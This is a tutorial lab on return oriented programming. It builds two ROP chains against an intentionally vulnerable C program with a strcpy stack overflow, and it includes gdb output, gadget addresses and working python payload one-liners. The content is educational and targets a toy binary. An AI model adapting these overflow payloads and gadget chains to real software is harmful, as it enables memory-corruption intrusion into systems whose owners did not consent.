

# ROP Chaining: Return Oriented Programming

The purpose of this lab is to familiarize with a binary exploitation technique called Return Oriented Programming \(ROP\), ROP chains and ROP gadgets. The technique is used to bypass Data Execution Protection \(DEP\) and Address Space Layout Randomization \(ASLR\) protections.


WIP. Update graphics. Replace EIP with return address.


## 1st ROP Chain

### Vulnerable Code

We wil exploit the following code in a program `rop1a` that is intentionally vulnerable with a classic stack-based overflow:



```c
#include <stdio.h>
#include <string.h>

void rop1() 
{
    printf("ROP 1!\n");
}

void rop2() {
    printf("ROP 2!\n");
}

void rop3() {
    printf("ROP 3!\n");
}

void vulnerable(char* string) 
{
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) 
{
    vulnerable(argv[1]);
    return 0;
}
```



The above program starts executing at `main()`, which calls `vulnerable()`, where user supplied buffer will be copied into the variable `buffer[100]`. 

Note that there are 3 functions `rop1`, `rop2` and `rop3` that are never called during the normal program execution, but that's about to change and this is the purpose of this lab - we're going to exploit the stack overflow and force the program to call all those rop functions.

### Objective

We're going to exploit the classic stack-based overflow vulnerability in the function `vulnerable` in the above code to trigger the functions `rop1()`, `rop2()` and `rop3()` sequentially, that are otherwise not called during the vulnerable program's runtime. Additionally, after `rop3()` completes, we will make the program call the libc function `exit()`, so that after the exploit completes, the program exits gracefully rather than with a crash.


The sequence of called functions `rop1() --> rop2() --> rop3() --> exit()` forms a chain, so naturally, this is where the term ROP chains come from.


### Stack Layout

The key thing to understand with ROP chaining is the stack layout. In our case, the payload that we send to the vulnerable program needs to overflow the stack and populate it in such a way, that the exploited program calls our wanted functions in the following order:

1. `rop1()`
2. `rop2()`
3. `rop3()`
4. `exit()`

In other words, we need to ensure that the stack in the vulnerable program, when the `vulnerable` function completes and is about to execute the `ret` instruction to return to the caller function `main`, is organized like this:


If we think about the above graphic, we will realize that once the stack is overflowed, the following will happen when the vulnerable program continues its execution:

1. The `vulnerable` function will return/jump to the `rop1()`. Note that before we overflowed the stack, this would have been a return address back to the `main` function;
2. Once `rop1()` completes, it will execute the `ret` instruction, which will pop the `rop2()` function address off the stack and jump to it;
3. Once `rop2()` completes, it will execute the `ret` instruction, which will pop the `rop3()` function address off the stack and jump to it;
4. Once `rop3()` completes, it will execute the `ret` instruction, which will pop the `exit()` function address off the stack and jump to it;

We will later confirm this with gdb in the [Inspecting the Stack](rop-chaining-return-oriented-programming.md#inspecting-the-stack) section.

### Payload

Based on the above graphic and understanding so far, our payload should look something like this:

```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

...or for easier cross-reference - using the same colours as those seen in the above stack layout:


Let's find out the values we need to populate our payload with. First of, compile our vulnerable program `rop1a`:

```python
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb-peda and put a breakpoint on `main()` and continue execution:

```python
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```


Our payload visualization can now be updated like this:


The last thing we need to know is how many AAAAs we need to send in before we can take over the EIP and overwrite the return address of the `vulnerable` function and point it to our first rop function out of the chain - `rop1`.

Below screenshot indicates that the offset of interest is 112 \(0x70\), or in other words, we need to send 112 A characters to smash the stack:


See below notes for more details on how to find the offset at which we can overwrite the `vulnerable` function's return address:



Knowing the EIP offset, we can now now visualize the full payload like this:


### Exploit

We can now construct the full payload in python and send it to the vulnerable program like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7"')"
```

If we execute it, we can see that`rop1`, `rop2` and `rop3` functions are called successfully as they each call their respective `printf()` statements:


Note how the program did not crash with some segfault - this is because `rop3` called `exit` upon return. To re-inforce this understanding, we will see how that came to be in the below section.

### Inspecting the Stack Layout

Let's explore the stack layout of the vulnerable program `rop1a` when the `vulnerable()` function gets exploited and is about to return after it completes executing - when the CPU is about to execute the `ret` instruction.

Below screenshot shows the initial diagram on the left, indicating how we needed the stack to look like during the exploitation and gdb screenshots on the right, that confirm we successfully built the required stack:


From the above screenshot, note the following 2 key points:

1. `vulnerable()` function is about to execute the `ret` instruction at `0x56556254`;
2. `ret` instruction will pop the topmost value from the stack, which is a memory address of the `rop1()` function and jump to it, this way kicking off execution of our ROP chain.

What happens next is the following..

Once `rop1()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `rop2()` and jump to it:


Once `rop2()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `rop3()` and jump to it:


Once `rop3()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `exit()` and jump to it:


This illustrates how we managed to build our first ROP chain by organizing the stack in such a way, that forced the vulnerable program to call `rop1`, which upon return called `rop2`, which upon return called `rop3`, which upon return called `exit`:


## 2nd ROP Chain

Our first ROP chain called 4 functions and none of them were called with arguments. Let's build our second ROP chain that will call functions with some arguments and see how we need to build the stack this time around.

### Vulnerable Code

We're going to re-use the same code, but modify it so that `rop2` and `rop3` functions will take 1 and 2 arguments respectively and will print them out accordingly when called:



```c
#include <stdio.h>
#include <string.h>

void rop1() {
    printf("ROP 1!\n");
}

void rop2(int a) {
    printf("ROP 2: %x!\n", a);
}

void rop3(int a, int b) {
    printf("ROP 3: %x, %x!\n", a, b);
}

void vulnerable(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable(argv[1]);
    return 0;
}
```



### Objective

The objective is to subvert our vulnerable program `rop1b` and make it call functions `rop1`, `rop2`, `rop3` and `exit` the same way we did it with our first ROP chain, however, this time `rop2` function is declared as `rop2(int a)` and `rop3` as `rop3(int a, int b)`, meaning we will have to somehow \(hint: using stack\) pass 1 argument to `rop2`  and 2 arguments to `rop3`.

### Stack Layout

Below shows what the stack needs to look like this time. Annotations explain the purpose of each memory address or value in the stack:


To re-inforce, stack for our second ROP chain has the following key differences when compared to the stack of the first ROP chain:

1. Stack contains arguments for functions `rop2` and `rop3`;
2. Stack contains 2 additional memory addresses, called ROP gadgets:
   1. `pop ret` - for popping off the `arg1` argument that was passed to `rop2` function and then jumping to `rop3` \(because `ret` instruction will pop the `rop3` address off the stack that will be at the top once the `arg1` is removed from the stack, and jump to it\);
   2. `pop pop ret` - for popping off the 2 arguments `arg1` and `arg2` \(hence 2 pops\) that were passed to the `rop3` function and then jumpt to `exit` \(because `ret` instruction will pop the `exit` address off the top of the stack that will be there after the 2 arguments are removed\).

### ROP Gadgets


* ROP gadgets are sequences of CPU instructions that are already present in the program being exploited or its loaded shared libraries and can be used to execute almost any arbitrary code;
* ROP gagdgets most often end with the `ret` instruction;
* ROP gadgets bypass the DEP \(NX bit protection\), since there is no executable code being injected to and executed from the stack, instead existing executable code is used to achieve the same malicious intent.


In gdb-peda, we can find addresses of the 2 gadgets that we are interested \(`popret` for rop2 and `pop2ret` for rop3\) by issuing the `ropgadet` command:


```python
gdb-peda$ ropgadget 
ret = 0x5655600a
popret = 0x5655601e
pop2ret = 0x5655630a
pop3ret = 0x56556309
pop4ret = 0x56556308
addesp_12 = 0x5655601b
addesp_16 = 0x565560fe
```

To confirm that the rop gadget does what it says it will, we can inspect the instructions for the rop gadget `popret = 0x5655601e` and we will see that it indeed contains 2 CPU instrutions `pop ebx & ret`:  


### Payload

Now that we know how the stack should look, let's build the payload for our second ROP chain.

First off, let's get addresses of our `rop1`, `rop2`, `rop3` and the libc `exit` functions:

```python
gdb-peda$ p rop1
$4 = {<text variable, no debug info>} 0x565561b9 <rop1>
gdb-peda$ p rop2
$5 = {<text variable, no debug info>} 0x565561e4 <rop2>
gdb-peda$ p rop3
$6 = {<text variable, no debug info>} 0x56556212 <rop3>
gdb-peda$ p exit
$7 = {<text variable, no debug info>} 0xf7e02950 <exit>
```


Let's also note the `popret` and `pop2ret` gagdet addresses:


Since we now know how the stack needs to look like, we have addresses for our functions and ROP gadgets, we can visualize our payload now like this:


### Exploit

We can now translate the above visualized payload to python like so:

```python
./rop1b "$(python -c 'print "A"*108 + "BBBB" + "\xb9\x61\x55\x56" + "\xe4\x61\x55\x56" + "\x1e\x60\x55\x56" + "\xef\xbe\xef\xbe" + "\x12\x62\x55\x56" + "\x0a\x63\x55\x56" + "\xad\xde\xad\xde" + "\xd3\xc0\xd3\xc0" + "\x50\x29\xe0\xf7" ')"
```

Below shows how the above payload is sent to the vulnerable program `rop1b`, that executes `rop1`, `rop2` with argument `0xbeefbeef` that gets printed out and `rop3` with 2 arguments `0xdeaddead` and `0xc0d3cod3` that too both get printed and finally gracefully exits:


### Inspecting the Stack Layout

To avoid repeating what we saw in the [Stack Layout](rop-chaining-return-oriented-programming.md#stack-layout) section for our first ROP chain, let's just see how the `pop2ret` ROP gadget works and how it affects the stack during execution, since that is really difference worth mentioning:



Note the following key points from the above gif:

* We're on a breakpoint inside the `rop3` function, where it's about to return by executing the `ret` instruction;
* At the top of the stack, there's an address of a `pop2ret` ROP gadget with `pop edi; pop ebp; ret` instructions inside a libc shared library loaded by our vulnerable program;
* `0xdeaddead` and `0xc0d3c0d3` are on the stop of the stack, just below the `pop2ret` address;
* Once the `ret` is executed, the code jumps to the said `pop2ret` ROP gagdet;
* `pop2ret` instructions `pop edi; pop ebp` execute and `0xdeaddead` and `0xc0d3c0d3` are popped from the stack;
* Address of the libc `exit()` function is now on top of the stack;
* Finally, `ret` instruction executes - it pops `exit()` address from the stack and jumps to it, completing our second ROP chain execution and gracefully closing the vulnerable program.


We could have chosen to inspect the `popret` gadget and we would have seen a nearly identical behaviour to the one noted above, except that `popret` would have popped only one value from the stack before executing the `ret` instruction.


## Useful Python

Below is a useful python snippet that converts a given memory address, i.e `0x565561d4`, to it's little-endian format, i.e `\\xd4\\x61\\x55\\x56`:

```python
import struct
'\\x' + '\\x'.join(x.encode('hex') for x in struct.pack('I', 0x565561d4)).encode("utf-8")
'\\xd4\\x61\\x55\\x56'
```

## References















